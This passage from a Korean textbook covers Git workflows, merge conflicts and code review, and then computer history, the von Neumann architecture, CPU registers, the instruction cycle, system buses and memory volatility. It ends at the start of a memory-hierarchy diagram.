- **과도한 엔지니어링(Over-engineering) 방지:** 오직 테스트를 통과하는 데 필요한 최소한의 코드만 작성하므로 불필요한 기능(YAGNI, You Aren't Gonna Need It)을 만들지 않습니다.
- **테스트 가능한 고품질 인터페이스 강제:** 테스트하기 어려운 코드는 대개 결합도가 높고 의존성이 꼬여있는 나쁜 코드입니다. 테스트를 먼저 작성하면 자연스럽게 의존성 주입(DI)이 적용되고 모듈이 분리된 훌륭한 설계가 유도됩니다.

---

## (+) 부록 B: 버전 관리(Git)는 왜 중요한가요?

### 1. 시간 여행과 협업의 도구
소프트웨어 개발에서 버전 관리 시스템(VCS)이 없던 시절을 상상해 보십시오.
- `소스코드_최종.zip`
- `소스코드_최종_진짜최종.zip`
- `소스코드_최종_진짜_수정본_배포금지.zip`

동료가 메일로 압축파일을 보내주면 각자의 컴퓨터에서 바뀐 부분을 수동으로 눈으로 비교해가며 합쳐야 했습니다. 실수로 이전 코드를 덮어쓰면 복구할 방법이 없었습니다.

2005년 리눅스 토발즈(Linus Torvalds)가 리눅스 커널 개발을 위해 만든 **Git(깃)**은 전 세계 소프트웨어 엔지니어링의 문화를 근본부터 바꾼 **분산 버전 관리 시스템(DVCS, Distributed Version Control System)**입니다.

```
Git의 핵심 역할
1. 시간 여행 (Time Travel): 프로젝트의 모든 과거 시점으로 코드를 되돌리거나(Checkout/Revert) 추적할 수 있습니다.
2. 병렬 우주 생성 (Branching): 메인 코드에 영향을 주지 않고 여러 개발자가 독립된 공간에서 각자의 기능을 실험할 수 있습니다.
3. 안전한 융합 (Merging): 흩어져 작업한 결과물을 충돌 검사를 거쳐 하나의 완결된 소스로 안전하게 결합합니다.
```

---

### 2. Git의 핵심 4단계 영역 메커니즘
Git을 제대로 다루기 위해서는 파일이 이동하는 4가지 영역(Area)을 이해해야 합니다.

```mermaid
flowchart LR
    subgraph Local_Computer ["로컬 컴퓨터 (Local PC)"]
        WD["1. 작업 디렉토리\n(Working Directory)\n실제 편집 중인 파일"]
        Index["2. 스테이징 영역\n(Staging Area / Index)\n커밋 대기 목록"]
        LocalRepo["3. 로컬 저장소\n(Local Repository)\n.git 내 영구 스냅샷"]
    end
    RemoteRepo["4. 원격 저장소\n(Remote Repository)\nGitHub / GitLab"]

    WD -->|git add| Index
    Index -->|git commit| LocalRepo
    LocalRepo -->|git push| RemoteRepo
    RemoteRepo -->|git fetch / pull| LocalRepo
    LocalRepo -->|git checkout / switch| WD
```

- **Working Directory:** 우리가 VS Code나 IntelliJ에서 실제로 타이핑하고 파일을 생성/수정/삭제하는 물리적 작업 폴더입니다.
- **Staging Area (Index):** 다음 커밋(스냅샷)에 포함시킬 파일들만을 골라 올려놓는 '발송 대기실'입니다. 수정된 10개의 파일 중 연관된 2개 파일만 골라 커밋할 수 있는 유연성을 제공합니다 (`git add`).
- **Local Repository:** 커밋이 확정되어 내 컴퓨터 안의 로컬 `.git` 데이터베이스에 영구적으로 안전하게 기록된 스냅샷 히스토리입니다 (`git commit`).
- **Remote Repository:** 팀원들과 코드를 공유하고 백업하기 위해 클라우드(GitHub, GitLab 등)에 호스팅된 중앙 저장소입니다 (`git push`, `git pull`).

---

### 3. 협업의 표준: GitHub PR(Pull Request) 워크플로우

현업에서 팀 단위로 일할 때 가장 널리 쓰이는 표준 개발 흐름은 **기능 브랜치 워크플로우(Feature Branch Workflow)**와 **PR(Pull Request)** 시스템입니다.

```mermaid
sequenceDiagram
    autonumber
    actor Alice as 개발자 (Alice)
    actor Bob as 동료 리뷰어 (Bob)
    participant GH as GitHub 원격 저장소
    participant CI as 자동화 CI 검사기

    Note over Alice: 1. main 브랜치에서 분기 생성<br>(git checkout -b feature/login)
    Alice->>Alice: 2. 기능 구현 및 단위 테스트 작성
    Alice->>Alice: 3. 커밋 생성 (git commit)
    Alice->>GH: 4. 원격 브랜치 푸시 (git push origin feature/login)
    Alice->>GH: 5. GitHub에서 PR(Pull Request) 오픈<br>"로그인 기능 구현했습니다. 리뷰 부탁드립니다!"
    
    activate CI
    GH->>CI: 자동 빌드 및 테스트 트리거
    CI-->>GH: 모든 테스트 통과 (Green Check ✅)
    deactivate CI

    Bob->>GH: 6. 코드 변경점(Diff) 확인 및 인라인 리뷰 작성<br>"이 부분 예외 처리가 누락된 것 같아요!"
    Alice->>Alice: 7. 피드백 반영 후 추가 커밋 & 푸시
    Bob->>GH: 8. 최종 승인 (Approve 👍)
    GH->>GH: 9. Main 브랜치로 병합 (Squash and Merge)
    Note over GH: 10. 배포 파이프라인 가동
```

---

### 4. 머지 충돌(Merge Conflict) 해결과 건강한 코드 리뷰 문화

#### 충돌(Conflict)이 발생하는 원리와 해결 3단계
두 명의 개발자가 **동일한 파일의 동일한 코드 라인을 서로 다르게 수정**한 상태에서 브랜치를 병합하려 할 때 Git은 스스로 판단할 수 없어 충돌을 일으킵니다. 충돌은 오류나 실패가 아니며, 코드가 조용히 덮어씌워져 망가지는 것을 막아주는 Git의 보호 장치입니다.

```
<<<<<<< HEAD (현재 브랜치: 내가 수정한 내용)
const API_URL = "https://api.myapp.com/v2";
=======
const API_URL = "https://staging.myapp.com/v1";
>>>>>>> feature/login (상대방이 수정한 내용)
```

1. **상황 파악:** `git status`를 입력하여 어떤 파일에서 충돌이 났는지 확인합니다.
2. **조율 및 수정:** 팀원과 대화하여 어떤 코드가 비즈니스적으로 옳은지 결정한 뒤, 에디터에서 `<<<<<<<`, `=======`, `>>>>>>>` 표시를 지우고 올바른 최종 코드로 정리합니다.
3. **완료:** 수정된 파일을 `git add <파일명>`으로 스테이징하고 `git commit`을 완료하여 충돌 해결을 매듭짓습니다.

#### 건강한 코드 리뷰 문화를 위한 실천 가이드
- **작은 PR 크기 유지:** 1,000줄이 넘는 방대한 PR은 리뷰어가 집중력을 잃고 대충 "LGTM(Looks Good To Me)"을 누르게 만듭니다. 한 번의 PR은 200~400줄 내외로 작게 쪼개어 제출합니다.
- **사람이 아닌 코드를 향한 피드백:** *"왜 이렇게 짰어요?"* 대신 *"이 함수에서 널(null) 값이 들어오면 어떤 일이 발생할까요?"*처럼 시스템과 코드 관점에서 열린 질문을 던집니다.
- **명확한 커밋 메시지 컨벤션(Conventional Commits):**
  - `feat: 소셜 로그인(구글, 카카오) 연동 기능 추가`
  - `fix: 결제 요청 시 타임아웃 오류 수정`
  - `refactor: 유저 서비스 비즈니스 로직 중복 제거`
  - `test: 장바구니 할인 정책 단위 테스트 추가`

---

## 에필로그: 공학적 규율이 개발자에게 주는 진정한 자유

소프트웨어 공학의 다양한 방법론, 철저한 설계 원칙, DevOps 자동화 파이프라인, 촘촘한 테스트 코드, 엄격한 Git 워크플로우를 처음 접할 때 어떤 개발자들은 이를 "자유로운 코딩을 구속하는 답답한 족쇄"처럼 느끼기도 합니다.

하지만 실무 소프트웨어 개발의 진실은 정반대입니다.
- 자동화된 테스트가 없다면, 우리는 한 줄의 코드를 고칠 때마다 시스템이 깨질까 두려워 벌벌 떨어야 합니다.
- CI/CD 파이프라인이 없다면, 우리는 밤마다 터미널에 접속해 수동으로 명령어를 치며 불안에 떨어야 합니다.
- 아키텍처와 방법론이 없다면, 코드는 순식간에 스파게티 덩어리가 되어 비즈니스의 발목을 잡을 것입니다.

**소프트웨어 공학이 요구하는 규율과 실천법은 개발자를 억압하는 족쇄가 아니라, 언제든 과감하게 코드를 리팩토링하고 신속하게 프로덕션에 배포할 수 있도록 지켜주는 '가장 든든한 날개'입니다.** 기술의 유행은 빠르게 변하지만, 본 장에서 다룬 공학적 원리와 협업의 본질은 여러분이 마주할 모든 미래의 시스템 개발에서도 변치 않는 굳건한 나침반이 되어줄 것입니다.


---

# PART 06. 컴퓨터 구조와 운영체제의 이해 (Computer Architecture & Operating Systems)

> **"소프트웨어 엔지니어가 컴퓨터 구조와 운영체제를 모른 채 코드를 작성하는 것은, 자동차의 엔진 구조와 변속기 원리를 모른 채 레이싱 머신을 모는 것과 같습니다. 평탄한 직선 도로에서는 차이를 느끼지 못할지 모르지만, 시스템의 성능 한계를 시험하는 극한의 코너링에 들어서는 순간 하드웨어와 운영체제에 대한 이해가 승패를 가릅니다."**

---

## 프롤로그: 물리적 기계와 추상적 논리가 만나는 경계

우리가 일상적으로 작성하는 프로그래밍 언어의 코드는 지극히 추상적이고 우아합니다. `int a = 10;`, `fetch('/api/users')`, `thread.start()`와 같은 문장들은 인간의 논리적 언어에 가깝습니다. 하지만 이 우아한 논리들이 컴퓨터 안으로 들어가는 순간, 이들은 가차 없는 물리적 실체로 변환됩니다.

컴퓨터의 본질은 사실 수십억 개의 미세한 전등 스위치(트랜지스터)가 켜지고 꺼지며 전압(0V와 3.3V)의 차이를 만들어내는 **거대한 전자 회로 덩어리**에 불과합니다. 
- 그렇다면 어떻게 이 차가운 규소(Silicon) 조각과 구리선들이 우리가 작성한 조건문과 반복문을 이해하고, 유튜브 영상을 실시간으로 재생하며, 수만 명의 동시 접속자를 처리하는 웹 서버로 작동할 수 있을까요?
- 어떻게 수십 개의 프로그램이 단 하나의 화면에서 충돌 없이 동시에 매끄럽게 동작할 수 있을까요?

이 마법 같은 기적의 중심에는 컴퓨터 공학의 양대 기둥인 **컴퓨터 구조(Computer Architecture)**와 **운영체제(Operating System)**가 자리 잡고 있습니다.
- **컴퓨터 구조**는 계산을 수행하는 두뇌(CPU)와 기억을 담당하는 저장소(메모리), 그리고 이들을 잇는 통로(버스)가 어떻게 물리적으로 설계되고 상호작용하는지를 다룹니다.
- **운영체제**는 이 한정된 물리적 하드웨어 자원을 수많은 프로그램들이 평화롭고 효율적으로 나누어 쓸 수 있도록 조율하는 최고 사령관이자 마법 같은 환상(Abstraction)을 만들어내는 지휘자입니다.

이번 PART 06에서는 단순한 암기식 지식을 넘어, 컴퓨터의 기원부터 현대 멀티코어 운영체제에 이르기까지 시스템의 가장 깊은 곳에서 돌아가는 메커니즘을 친절하고 깊이 있게 탐험해 보겠습니다.

---

## 01. 컴퓨터와 운영체제의 역사: 거대한 계산기에서 현대 GUI OS까지

컴퓨터와 운영체제가 오늘날의 세련된 모습을 갖추기까지는 수많은 천재들의 번뜩이는 아이디어와 기술적 혁신이 축적된 드라마틱한 여정이 있었습니다. 역사를 이해하면 현대 컴퓨터가 "왜 지금과 같은 구조를 선택했는가?"에 대한 답을 자연스럽게 얻을 수 있습니다.

```mermaid
timeline
    title 컴퓨터와 운영체제의 세대별 진화
    1940년대 : 에니악(ENIAC) : 진공관과 수동 배선 방식
            : 폰 노이만 구조 탄생 : 내장 프로그램 방식의 도래
    1950년대 : 트랜지스터 혁명 : 메인프레임과 일괄(배치) 처리 시스템
    1960년대 : 직접회로(IC) : 다중 프로그래밍과 시분할 시스템(CTSS, MULTICS)
    1970년대 : 마이크로프로세서 : UNIX의 탄생, C 언어 개발
    1980년대 : 개인용 PC 대중화 : GUI 운영체제(Xerox Alto, Macintosh, MS-DOS)
    1990년대~현재 : 인터넷과 모바일 : Linux, Windows NT, 스마트폰(iOS/Android), 클라우드 OS
```

---

### 1.1 에니악(ENIAC)과 진공관: 선을 일일이 꽂아야 했던 거인
1946년 미국 펜실베이니아 대학에서 완성된 **에니악(ENIAC, Electronic Numerical Integrator and Computer)**은 세계 최초의 범용 전자식 디지털 컴퓨터로 인정받습니다. 에니악은 높이 2.4m, 길이 30m, 무게 30톤에 달하는 거대한 괴물이었습니다. 내부에는 무려 18,000여 개의 진공관이 빼곡히 들어차 있었습니다.

에니악은 탄도 궤적 계산 등 엄청난 연산을 순식간에 수행할 수 있었지만, 치명적인 약점이 있었습니다. **"프로그램을 변경하려면 사람이 직접 전선을 뽑아 다른 단자에 꽂아야 했다"**는 점입니다.
- 당시 컴퓨터는 하드웨어와 프로그램이 완전히 한 몸으로 결합되어 있었습니다.
- 덧셈을 하다가 미분 방정식을 풀려면 수천 개의 스위치를 손으로 내리고 전선 수백 가닥을 재배치해야 했습니다. 계산 자체는 몇 초 만에 끝났지만, 프로그래밍(배선 작업)에는 며칠 혹은 몇 주가 걸렸습니다.

---

### 1.2 폰 노이만의 혁명: 내장 프로그램 방식(Stored-Program Concept)
이 답답한 구조를 단숨에 혁신한 인물이 바로 20세기 최고의 천재 수학자 **존 폰 노이만(John von Neumann)**입니다. 1945년, 그는 에드박(EDVAC)에 대한 보고서에서 현대 컴퓨터의 설계 표준이 된 **내장 프로그램 방식(Stored-Program Concept)**을 제안합니다.

> **폰 노이만의 핵심 발상:**  
> *"계산할 '데이터'뿐만 아니라, 컴퓨터가 수행할 '명령어(프로그램)' 역시 메모리에 숫자의 형태로 함께 올려두고 차례대로 읽어서 실행하면 되지 않는가?"*

이 발상은 컴퓨터 역사상 가장 거대한 패러다임 전환이었습니다.
1. 하드웨어 전선을 손댈 필요가 완전히 사라졌습니다.
2. 실행하고 싶은 소프트웨어를 메모리에 적재(Load)하기만 하면, 하나의 컴퓨터가 워드프로세서도 되었다가 계산기도 되고 게임기도 될 수 있는 진정한 **범용 컴퓨터(Universal Computer)**의 시대가 열린 것입니다.

---

### 1.3 하드웨어 소자의 진화: 진공관에서 마이크로프로세서까지
컴퓨터의 물리적 크기가 방 하나 크기에서 우리 손바닥 안의 스마트폰으로 줄어들 수 있었던 것은 반도체 소자의 비약적인 발전 덕분이었습니다.

| 세대 | 핵심 소자 | 특징 및 역사적 의의 |
| :--- | :--- | :--- |
| **제1세대 (1940~50년대)** | **진공관 (Vacuum Tube)** | 엄청난 전력 소모, 극심한 발열, 필라멘트 단선으로 잦은 고장 |
| **제2세대 (1950~60년대)** | **트랜지스터 (Transistor)** | 벨 연구소의 혁명. 크기와 발열이 극적으로 감소, 신뢰성 비약적 향상 |
| **제3세대 (1960~70년대)** | **집적회로 (IC, Integrated Circuit)** | 하나의 실리콘 칩에 수십~수천 개의 트랜지스터를 집적. 미니컴퓨터의 탄생 |
| **제4세대 (1970년대~현재)** | **초고밀도 집적회로 (VLSI / ULSI)** | 칩 하나에 CPU 전체를 구현한 **마이크로프로세서(Intel 4004, 8086)** 등장. PC 혁명의 시초 |

---

### 1.4 운영체제의 눈부신 진화 과정

컴퓨터가 처음 등장했을 때는 '운영체제'라는 개념 자체가 없었습니다. 값비싼 하드웨어를 한 순간도 쉬게 하지 않고 최대한 쥐어짜기 위한 고민 속에서 운영체제는 다음과 같이 진화해 왔습니다.

#### 1) 초기 순차 처리 (Direct Processing / No OS)
- 프로그래머가 손수 펀치 카드(천공 카드)를 들고 전산실에 들어가 컴퓨터를 독점 예약하고 실행했습니다.
- 앞사람의 작업이 끝나고 뒷사람이 기계를 세팅하는 준비 시간(Setup Time) 동안 그 천문학적으로 비싼 컴퓨터가 멍하니 놀고 있어야 했습니다.

#### 2) 일괄 처리 시스템 (Batch Processing System)
- 프로그래머들이 제출한 펀치 카드 뭉치들을 오퍼레이터(전산실 관리자)가 모아, 성격이 비슷한 작업끼리 한 묶음(Batch)으로 묶어 컴퓨터에 한 번에 집어넣는 방식입니다.
- 최초의 원시적 운영체제인 **상주 모니터(Resident Monitor)**가 메모리 한구석에 상주하며 작업이 끝나면 다음 작업을 자동으로 읽어 들였습니다.
- **치명적 문제:** 컴퓨터의 연산 속도에 비해 종이 카드를 읽고 프린터로 찍는 I/O(입출력) 속도가 수만 배 이상 느렸습니다. CPU는 I/O가 끝날 때까지 하염없이 기다려야 했습니다.

```
[배치 처리의 유휴 시간 문제]
CPU 동작: [ 연산 ] ───(I/O 대기로 CPU 멈춤)───> [ 연산 ] ───(I/O 대기)───> [ 연산 ]
I/O 장치:          [ 카드 읽기/인쇄 ]                      [ 카드 읽기/인쇄 ]
```

#### 3) 다중 프로그래밍(Multiprogramming)과 스풀링(SPOOLing)
- **스풀링(SPOOLing, Simultaneous Peripheral Operations On-Line):** 느린 테이프나 프린터 작업을 중간에 자기 디스크(빠른 보조기억장치)에 임시로 저장하여 CPU의 대기 시간을 줄였습니다.
- **다중 프로그래밍(Multiprogramming):** 메모리에 프로그램 여러 개를 동시에 올려둡니다. 프로그램 A가 디스크에서 데이터를 읽어오는 I/O 작업을 수행하느라 CPU를 쓰지 않는 동안, CPU가 놀지 않고 메모리에 있는 프로그램 B의 연산을 가로채서 수행합니다. 이로써 CPU 활용률이 극적으로 향상되었습니다.

#### 4) 시분할 시스템 (Time-Sharing System): 대화형(Interactive) 컴퓨터의 탄생
- 다중 프로그래밍은 CPU 효율을 극대화했지만, 인간 개발자의 답답함은 여전했습니다. 카드를 제출하고 결과를 받기까지 반나절에서 하루가 걸렸기 때문입니다.
- 1960년대 중반, MIT의 페르난도 코바토(Fernando Corbató) 등이 **시분할 시스템(CTSS, Multics)**을 제안합니다.
- CPU의 시간을 아주 미세한 조각(Time Slice, 예: 10ms)으로 쪼개어, 터미널에 앉아 있는 수십~수백 명의 사용자에게 번갈아 할당합니다.
- 워낙 빠르게 화면이 전환되다 보니, 각 사용자는 **"이 거대한 컴퓨터가 오직 나 혼자만을 위해 실시간으로 응답하고 있다"**는 환상(Illusion)을 경험하게 되었습니다. 이것이 바로 현대 멀티태스킹 OS의 모태입니다.

#### 5) UNIX의 탄생과 C 언어의 축복
- 1969년 벨 연구소의 켄 톰슨(Ken Thompson)과 데니스 리치(Dennis Ritchie)는 Multics의 복잡성을 걷어내고 작고 우아한 시스템인 **UNIX**를 창시했습니다.
- 특히 1973년, 하드웨어에 종속적이던 어셈블리어를 탈피하여 **C 언어로 UNIX 커널 전체를 재작성**하는 역사적 사건이 일어납니다. 이로써 운영체제는 하드웨어 기종에 구애받지 않고 어디로든 이식(Porting)될 수 있는 불멸의 날개를 달게 되었으며, 현대 Linux, macOS, iOS, Android의 위대한 족보가 여기서 탄생했습니다.

#### 6) 개인용 PC와 GUI(그래픽 사용자 인터페이스) 혁명
- 제록스 파크(Xerox PARC) 연구소의 Alto 컴퓨터가 마우스와 창(Window), 아이콘, 메뉴로 구성된 **GUI(Graphical User Interface)**를 세계 최초로 선보였습니다.
- 이를 눈여겨본 스티브 잡스가 1984년 **Apple Macintosh**를 통해 상용화했고, 마이크로소프트의 빌 게이츠가 **Windows** 시리즈(Windows 95, Windows NT)로 전 세계 가정과 오피스를 정복하며 오늘날 우리가 사용하는 현대적 OS 생태계가 완성되었습니다.

---

## 02. 컴퓨터는 어떤 구성 요소로 되어 있나요?

컴퓨터를 한 대의 데스크톱 본체로 바라보면 화려한 그래픽 카드와 쿨러, 수많은 단자가 얽혀 있어 복잡해 보이지만, 본질적인 논리 구조는 70여 년 전 폰 노이만이 정의한 뼈대에서 단 한 발자국도 벗어나지 않았습니다.

```mermaid
flowchart TB
    subgraph CPU ["중앙처리장치 (CPU)"]
        CU["제어장치 (Control Unit)"]
        ALU["산술논리연산장치 (ALU)"]
        REG["레지스터 세트 (Registers)"]
        CU <--> ALU
        CU <--> REG
        ALU <--> REG
    end

    subgraph MEM ["주기억장치 (Main Memory)"]
        RAM["RAM (DRAM)"]
    end

    subgraph IO_SEC ["외부 장치"]
        SEC["보조기억장치 (SSD / HDD)"]
        DEV["입출력장치 (키보드, 모니터, NIC)"]
    end

    CPU <== "시스템 버스 (제어/주소/데이터)" ==> MEM
    CPU <== "시스템 버스 & 컨트롤러" ==> IO_SEC
    MEM <== "시스템 버스 & DMA" ==> IO_SEC
```

---

### 2.1 폰 노이만 구조의 3대 핵심 기둥

현대 컴퓨터는 아무리 작거나 거대해도 다음 세 가지 기본 원리로 구동됩니다.
1. **내장 프로그램 방식:** 처리할 데이터와 소프트웨어 프로그램 명령어가 동일한 메모리 공간에 함께 저장됩니다.
2. **순차적 명령어 실행:** CPU는 메모리에 저장된 명령어를 한 번에 하나씩 차례대로 가져와 실행합니다.
3. **버스 기반 상호연결:** CPU, 메모리, 주변 장치들이 시스템 버스를 통해 데이터를 주고받습니다.

> [!NOTE]
> **폰 노이만 구조 vs 하버드 구조(Harvard Architecture)**  
> - **폰 노이만 구조:** 명령어(Instruction)와 데이터(Data)가 **하나의 메모리와 단일 버스**를 공유합니다. 설계가 단순하지만, 명령어와 데이터를 동시에 읽을 수 없는 '폰 노이만 병목(Bottleneck)'이 존재합니다.
> - **하버드 구조:** 명령어 전용 메모리/버스와 데이터 전용 메모리/버스가 **물리적으로 완전히 분리**되어 있습니다. 동시에 명령어 인출과 데이터 읽기가 가능하여 속도가 빠릅니다.
> - **현대 컴퓨터의 절충안:** 메인 메모리 수준에서는 통합된 폰 노이만 구조를 취하지만, CPU 내부 캐시 메모리 단계에서는 L1 명령어 캐시(L1i)와 L1 데이터 캐시(L1d)를 분리하는 **하버드 구조를 결합한 하이브리드 형태**를 채택하고 있습니다.

---

### 2.2 CPU(Central Processing Unit): 컴퓨터의 심장과 두뇌
CPU는 메모리에 적재된 프로그램의 기계어 명령어를 인출(Fetch)하고 해석(Decode)하여 실행(Execute)하는 초고속 연산 장치입니다. 내부적으로 3개의 핵심 모듈로 구성됩니다.

#### 1) ALU (산술논리연산장치, Arithmetic Logic Unit)
- 말 그대로 산술 연산(덧셈, 뺄셈, 곱셈 등)과 논리 연산(AND, OR, NOT, XOR, 시프트 등)을 실제로 수행하는 전자 계산기입니다.
- 연산의 결과와 함께 현재 상태를 나타내는 플래그(부호 플래그, 제로 플래그, 오버플로우 플래그, 캐리 플래그 등)를 출력하여 플래그 레지스터에 기록합니다.

#### 2) 제어장치 (Control Unit, CU)
- 컴퓨터의 모든 구성 요소를 총괄하는 지휘자입니다.
- 메모리에서 명령어를 가져와 기계어 비트 패턴을 해독(Decoding)한 뒤, ALU, 레지스터, 메모리, 입출력 장치에 "지금 덧셈을 해라", "메모리 0x1000번지의 데이터를 읽어와라" 같은 **제어 신호(Control Signal)**를 발생시킵니다.

#### 3) 레지스터 (Registers)
- CPU 내부에 위치한 **가장 작고, 가장 비싸며, 상상을 초월할 정도로 빠른 초고속 임시 기억장소**입니다.
- CPU가 연산을 수행하려면 메모리에서 값을 가져와 반드시 레지스터에 올려두어야 합니다.

| 핵심 레지스터 명칭 | 역할 및 기능 |
| :--- | :--- |
| **PC (Program Counter)** | **다음에 인출하여 실행할 명령어의 메모리 주소**를 가리킵니다. 명령어를 하나 가져올 때마다 자동으로 증가합니다. |
| **IR (Instruction Register)** | 메모리에서 방금 인출해 온 **현재 실행 중인 기계어 명령어 자체**를 임시로 담아두는 곳입니다. |
| **MAR (Memory Address Register)** | CPU가 읽거나 쓰고자 하는 **메모리의 물리 주소**를 잠시 보관하는 레지스터입니다. 주소 버스와 직결됩니다. |
| **MBR (Memory Buffer Register / MDR)** | 메모리에서 읽어온 데이터나, 메모리에 기록하기 위해 보낼 **실제 데이터 값**을 담는 버퍼입니다. 데이터 버스와 직결됩니다. |
| **AC (Accumulator, 누산기)** | ALU의 연산 결과나 중간 연산 데이터를 일시적으로 누적하여 저장하는 레지스터입니다. |
| **SP (Stack Pointer)** | 메모리의 스택 영역에서 가장 최근에 푸시된(최상단) 데이터의 주소를 추적합니다. |
| **Status / Flag Register** | 직전 연산 결과가 0인지(Z), 음수인지(S), 자리올림이 났는지(C), 오버플로우가 났는지(V) 등의 CPU 상태 정보를 비트 단위로 보관합니다. |

---

### 2.3 CPU의 명령어 실행 주기 (Instruction Cycle)
CPU가 전원이 들어와서 꺼질 때까지 무한히 반복하는 기본 사이클은 다음과 같습니다.

```
[인출 (Fetch)] ──> [해독 (Decode)] ──> [실행 (Execute)] ──> [저장 (Writeback)]
      ▲                                                              │
      └────────────────── (인터럽트 확인 후 반복) ─────────────────────┘
```

1. **인출 (Fetch):** PC가 가리키는 메모리 주소를 MAR로 보내고, 메모리에서 해당 명령어를 MBR을 거쳐 IR(명령어 레지스터)로 가져옵니다. PC는 다음 명령어를 가리키도록 증가합니다.
2. **해독 (Decode):** 제어장치(CU)가 IR에 실린 기계어 비트를 분석하여 어떤 연산인지, 피연산자(Operand)가 어디에 있는지 파악합니다.
3. **실행 (Execute):** 제어 신호에 따라 ALU가 연산을 수행하거나 레지스터 간 데이터를 복사합니다.
4. **저장 / 인터럽트 검사 (Writeback & Interrupt):** 연산 결과를 레지스터나 메모리에 쓰고, 외부 장치로부터 인터럽트 요청이 들어왔는지 확인합니다.

---

### 2.4 주기억장치(메모리), 보조기억장치, 입출력장치

- **주기억장치 (Main Memory, RAM):** CPU가 직접 주소를 지정하여 접근할 수 있는 작업 공간입니다. 임의의 위치라도 주소만 알면 동일한 시간 내에 접근할 수 있어 **RAM(Random Access Memory)**이라고 부릅니다. 현재 실행 중인 프로그램 코드와 데이터가 상주합니다.
- **보조기억장치 (Secondary Storage, SSD/HDD):** RAM은 전원이 차단되면 데이터가 날아가므로, 파일과 운영체제 바이너리를 영구적으로 보관하기 위한 대용량 비휘발성 저장소입니다.
- **입출력장치 (I/O Devices):** 모니터, 키보드, 마우스, 네트워크 인터페이스 카드(NIC) 등 컴퓨터 외부 세계와 인간, 네트워크를 이어주는 장치입니다. CPU에 비해 동작 속도가 현저히 느려 특별한 입출력 제어기(Controller)를 통해 연결됩니다.

---

### 2.5 시스템 버스 (System Bus): 데이터의 고속도로
CPU, 메모리, 입출력 장치 사이에 신호와 데이터가 오가는 물리적 배선 묶음을 **시스템 버스**라고 부르며, 기능에 따라 3가지로 나뉩니다.

```
[ CPU ] ══════════════════════════════════════════ [ 메모리 & I/O ]
           ┌───────────────────────────────────┐
           │ 주소 버스 (Address Bus)    ───>   │ (단방향: CPU가 주소 지정)
           │ 데이터 버스 (Data Bus)     <───>  │ (양방향: 명령어 및 데이터 전달)
           │ 제어 버스 (Control Bus)    <───>  │ (양방향: Read/Write, Interrupt 제어)
           └───────────────────────────────────┘
```

1. **주소 버스 (Address Bus):** CPU가 메모리나 I/O 장치에 접근할 때 "몇 번지에 접근할 것인가?"를 지정하는 전선입니다. CPU에서 외부로 나가는 단방향 성격을 가집니다. 주소 버스의 폭(가닥 수)이 32가닥이면 2³² (4GB), 64가닥이면 이론상 2⁶⁴바이트의 주소를 지정할 수 있습니다.
2. **데이터 버스 (Data Bus):** 실제 명령어와 데이터가 오고 가는 양방향 도로입니다. 데이터 버스의 폭이 64비트라면 한 번의 클록 신호에 8바이트의 데이터를 통째로 실어나를 수 있습니다.
3. **제어 버스 (Control Bus):** 지금 주소 버스에 올린 주소의 데이터를 "읽을 것인가(Read)" 아니면 "쓸 것인가(Write)"를 알리는 제어 신호, 클록 신호, 입출력 완료를 알리는 인터럽트 신호 등이 흐르는 지휘용 통로입니다.

---

## 03. 왜 모든 데이터를 메모리에 올리지 못하나요?

초보 프로그래머들은 종종 이런 상상을 합니다.  
*"SSD나 하드디스크는 너무 느린데, 그냥 컴퓨터에 RAM을 100테라바이트쯤 꽂아두고 모든 파일과 데이터베이스를 몽땅 올려두면 세상 모든 소프트웨어가 빛의 속도로 동작하지 않을까?"*

이 질문은 아주 자연스럽지만, 물리학적 현실과 경제학적 법칙 앞에서 가로막히게 됩니다.

---

### 3.1 비휘발성(Non-volatile) vs 휘발성(Volatile)의 근본적 차이

가장 치명적인 이유는 **물리적 데이터 보존 능력** 때문입니다.

```
[휘발성 메모리 (DRAM)]                [비휘발성 저장장치 (NAND Flash SSD)]
   ┌───────────┐                         ┌───────────┐
   │ 전하 충전 │ ──(전원 차단)──> 소멸   │ 전하 포획 │ ──(전원 차단)──> 영구 보존
   └───────────┘ (휘발성, Volatile)       └───────────┘ (비휘발성, Non-volatile)
```

- **휘발성 메모리 (RAM, 특히 DRAM):**  
  우리가 주기억장치로 사용하는 DRAM(Dynamic RAM)은 초소형 트랜지스터 1개와 커패시터(축전기, Capacitor) 1개로 1비트의 정보를 저장합니다. 커패시터에 전하가 충전되어 있으면 1, 방전되어 있으면 0으로 인식합니다.  
  문제는 커패시터가 극도로 미세하여 전하가 1초에도 수천 번씩 자연 방전된다는 점입니다. 따라서 컴퓨터가 켜져 있는 동안에도 주기적으로 전하를 재충전(Refresh)해주어야 합니다. 만약 컴퓨터의 전원 플러그를 뽑는 순간, 커패시터의 전하는 수 밀리초 만에 흔적도 없이 사라져 버립니다. 모든 데이터를 RAM에만 보관한다면, 정전 한 번에 국가 전산망과 개인의 모든 사진, 문서가 영구 소멸할 것입니다.
- **비휘발성 저장장치 (NAND Flash SSD, HDD):**  
  NAND 플래시 메모리는 플로팅 게이트(Floating Gate)나 전하 포획층(Charge Trap Nitride)이라는 절연체 속에 전자를 가두어 둡니다. 전원이 차단되어도 물리적으로 전자가 빠져나가지 못하므로 수년 동안 데이터가 안전하게 유지됩니다.

---

### 3.2 비용-용량-속도의 트레이드오프 (The Golden Triangle)

두 번째 이유는 반도체 제조 원가와 물리적 속도의 반비례 관계입니다.

$$
속도가 극도로 빠름 \iff 소자가 복잡하고 큼 \iff 비용이 극도로 비쌈 \iff 대용량 제작 불가
$$

- **SRAM (Static RAM, 캐시 메모리에 사용):**  
  트랜지스터를 무려 4~6개 엮어 만든 플립플롭(Flip-Flop) 회로로 1비트를 저장합니다. 전하를 충전할 필요 없이 전압 상태만으로 데이터를 유지하므로 DRAM보다 수십 배 빠르고 리프레시도 필요 없습니다. 하지만 회로 면적이 너무 넓어 칩 안에 많이 집어넣을 수 없고, 가격이 천문학적으로 비쌉니다. (수십 메가바이트(MB) 수준만 탑재)
- **DRAM (Dynamic RAM, 메인 메모리에 사용):**  
  트랜지스터 1개와 커패시터 1개로 구성되어 SRAM보다 집적도가 훨씬 높아 기가바이트(GB) 단위로 만들 수 있지만, SRAM보다 느립니다.
- **NAND Flash / HDD (보조기억장치):**  
  속도는 DRAM보다 수천~수만 배 느리지만, 테라바이트(TB) 단위를 저렴한 가격에 대량 생산할 수 있습니다.

---

### 3.3 저장장치 계층 구조 (Memory Hierarchy Pyramid)

컴퓨터 공학자들은 이 상충 관계(Trade-off)를 해결하기 위해 천재적인 타협안을 고안해 냈습니다. 바로 **저장장치 계층 구조(Memory Hierarchy)**입니다.

```mermaid
flowchart TB
